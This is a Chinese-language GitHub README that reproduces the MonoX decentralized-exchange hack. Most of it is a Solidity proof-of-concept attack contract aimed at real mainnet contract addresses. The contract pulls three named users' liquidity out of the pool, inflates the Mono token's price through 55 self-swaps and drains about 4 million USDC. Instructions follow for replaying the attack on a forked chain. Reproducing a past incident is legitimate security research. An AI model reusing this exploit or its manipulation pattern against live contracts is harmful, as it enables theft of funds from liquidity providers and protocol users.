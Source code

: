 # MonoX_Vul
MonoX被攻击事件的分析和复现

[攻击事件的分析](https://github.com/W2Ning/MonoX_Vul_/blob/main/MonoX%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6%E5%88%86%E6%9E%90.md)


[完整攻击代码](https://github.com/W2Ning/MonoX_Vul_/blob/main/poc.sol)

### 核心攻击代码
* 注意下面的代码缺少Interface, 不能直接复制

```js
contract POC{

    address WETH9_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    address Mono_Token_Address = 0x2920f7d6134f4669343e70122cA9b8f19Ef8fa5D;

    address MonoXPool_Address = 0x59653E37F8c491C3Be36e5DD4D503Ca32B5ab2f4;

    address Monoswap_address =  0xC36a7887786389405EA8DA0B87602Ae3902B88A1;
    // 无辜的大户地址1
    address Innocent_user_1 = 0x7B9aa6ED8B514C86bA819B99897b69b608293fFC;
    // 无辜的大户地址2
    address Innocent_user_2 = 0x81D98c8fdA0410ee3e9D7586cB949cD19FA4cf38;
    // 无辜的大户地址3
    address Innocent_user_3 = 0xab5167e8cC36A3a91Fd2d75C6147140cd1837355;

    address USDC_Address =  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    uint256 Amount_Of_MonoToken_On_XPool;

    uint256 public Amount_Of_USDC_On_XPool;
    
    uint256 public Amoount_Of_Mono_On_This; 


    constructor()  public payable{
        // 把MonoToken的全部额度授权给MonoSwap 
        MonoToken(Mono_Token_Address).approve(Monoswap_address,type(uint256).max);
        // 把0.1个ETH换成0.1个WETH
        WETH9(WETH9_Address).deposit{value:address(this).balance,gas:40000}();
        // 把0.1个WETH的额度授权给MonoSwap
        WETH9(WETH9_Address).approve(Monoswap_address,0.1 ether);
        // 用0.1个WETH在MonoSwap上购买MonoToken
        Monoswap(Monoswap_address).swapExactTokenForToken(WETH9_Address,Mono_Token_Address,0.1 ether,1,address(this),block.timestamp);
        // 把XPool中三个大户的流动性全部剔除
        RemoveLiquidity_From_3_Users();
        // 添加自己的流动性
        Monoswap(Monoswap_address).addLiquidity(Mono_Token_Address,196875656,address(this));
        // 用Mono换Mono 共55次
        Swap_Mono_for_Mono_55_Times();
        // 用极少量的Mono换到400万的USDC
        Swap_Mono_For_USDC();

    }


    function RemoveLiquidity_From_3_Users() internal{
        uint256 balance_Of_User1 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_1,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User1,Innocent_user_1,0,1);

        uint256 balance_Of_User2 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_2,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User2,Innocent_user_2,0,1);

        uint256 balance_Of_User3 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_3,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User3,Innocent_user_3,0,1);
    }

    function Swap_Mono_for_Mono_55_Times() internal{

        for(uint256 i=0;i < 55; i++){

            (,,,,,,Amount_Of_MonoToken_On_XPool,,) = Monoswap(Monoswap_address).pools(Mono_Token_Address);

            Monoswap(Monoswap_address).swapExactTokenForToken(Mono_Token_Address,Mono_Token_Address,Amount_Of_MonoToken_On_XPool-1,0,address(this),block.timestamp);
            
        }
    }

    function Swap_Mono_For_USDC() internal{

        (,,,,,,Amount_Of_USDC_On_XPool,,) = Monoswap(Monoswap_address).pools(USDC_Address);

        Amoount_Of_Mono_On_This = MonoToken(Mono_Token_Address).balanceOf(address(this));

        Monoswap(Monoswap_address).swapTokenForExactToken(Mono_Token_Address,USDC_Address,Amoount_Of_Mono_On_This,4000000000000,msg.sender,block.timestamp);
    }


    receive() payable external{}


    function onERC1155Received(address _operator, address _from, uint256 _id, uint256 _value, bytes calldata _data) external returns(bytes4){
        bytes4 a = 0xf23a6e61;
        return a;
    }
```

### 复现方法

* 主网上的攻击发生在高度为`13715026`的块上, 所以同样我们选前一个块去fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/Your_API_KEY@13715025   -l 4294967295
```

* 部署攻击合约 注意部署时要带上100个`Finney`, 也就是0.1个`ETH`


![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E9%83%A8%E7%BD%B2%E6%94%BB%E5%87%BB%E5%90%88%E7%BA%A6.png)

* 攻击前的MetaMask钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%89%8D%E7%9A%84MetaMask%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

* 攻击后的钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%90%8E%E7%9A%84%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

